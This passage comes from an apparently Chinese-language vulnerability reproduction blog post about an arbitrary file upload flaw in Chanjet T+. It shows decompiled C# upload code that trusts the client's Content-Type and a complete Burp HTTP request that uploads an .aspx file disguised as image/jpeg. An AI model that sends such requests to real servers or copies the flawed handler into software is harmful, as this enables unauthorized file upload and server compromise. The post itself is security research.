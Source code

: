 ```
			}));
			return;
		}
		if (this.File1.PostedFile.ContentType != "image/jpeg" && this.File1.PostedFile.ContentType != "image/bmp" && this.File1.PostedFile.ContentType != "image/gif" && this.File1.PostedFile.ContentType != "image/pjpeg")
		{
			base.Response.Write(string.Concat(new string[]
			{
				"<script language='javascript'>alert('",
				this.PhotoTypeError,
				"'); parent.document.getElementById('myimg').src='",
				text,
				"';</script>"
			}));
			return;
		}
		string fileName = this.File1.PostedFile.FileName;
		string text2 = fileName.Substring(fileName.LastIndexOf('\\') + 1);
		this.File1.PostedFile.SaveAs(base.Server.MapPath(".") + "\\images\\" + text2);
		string value = base.Server.MapPath(".") + "\\images\\" + text2;
		this.ViewState["fileName"] = "images/" + text2;
		TPContext.Current.Session["ImageName"] = value;
	}
}
```

根据获取到的源码进行分析

![image-20221024041444451](https://funsiooo.github.io/images/chanjet/image-20221024041444451.png)

### 漏洞复现

原理了解，实践开始，通过 Burp 抓包，构造语句，我这里使用 Windows 自带浏览器进行流量代理，因为使用 Chrome 无法进行抓包

![image-20221024042906233](https://funsiooo.github.io/images/chanjet/image-20221024042906233.png)

访问 `/tplus/SM/SetupAccount/Upload.aspx` 路径进行抓包，这里直接替换为参考文章师傅的数据包即可，修改 IP 为本地 IP

```
POST /tplus/SM/SetupAccount/Upload.aspx HTTP/1.1
Host: 192.168.114.144
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ASP.NET_SessionId=gvigofzulthd2v1i2q5zndtf; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1662302093; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1662302093
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt
Content-Length: 182

------WebKitFormBoundarywwk2ReqGTj7lNYlt
Content-Disposition: form-data; name="File1";filename="test.aspx"
Content-Type: image/jpeg

1
------WebKitFormBoundarywwk2ReqGTj7lNYlt--
```
